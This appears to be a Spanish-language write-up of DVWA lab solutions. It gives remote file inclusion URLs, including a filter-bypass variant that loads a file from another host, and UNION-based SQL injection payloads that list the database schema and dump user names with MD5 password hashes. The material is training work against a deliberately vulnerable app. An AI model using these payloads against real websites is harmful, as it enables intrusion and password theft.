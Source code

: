```yaml
---
layout: default
title: "DVWA"
permalink: /dvwa/
---
```


# DVWA

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[http://dvwa.co.uk/](http://dvwa.co.uk/)

## Índice



DVWA 1.0.7

# FileInclusion

## LOW

http://192.168.56.103/vulnerabilities/fi/?page=http://192.168.56.1/a.txt

## MEDIUM

http://192.168.56.103/vulnerabilities/fi/?page=htthttp://p://192.168.56.1/a.txt

## HIGH

IMPOSIBLE

# SQLI

## LOW

```bash
' union select null,database()#
' union select null,table_name from imformation_schema#
' union select table_name,null from information_schema.tables#
' union select table_schema,null from information_schema.tables#
' union select table_name,null from information_schema.tables where table_schema='dvwa'#
' union select group_concat(table_name),null from information_schema.tables where table_schema='dvwa'#
' union select group_concat(table_name,':',table_schema),null from information_schema.tables where table_schema='dvwa'#

I> ' union select group_concat(column_name),null from information_schema.columns where table_name='users'#
O> user_id,first_name,last_name,user,password,avatar

I> ' union select group_concat('</br>',user,':',password),null from users#
O>	admin:5f4dcc3b5aa765d61d8327deb882cf99,
	gordonb:e99a18c428cb38d5f260853678922e03,
	1337:8d3533d75ae2c3966d7e0d4fcc69216b,
	pablo:0d107d09f5bbe40cade3de5c71e9e9b7,
	smithy:5f4dcc3b5aa765d61d8327deb882cf99

```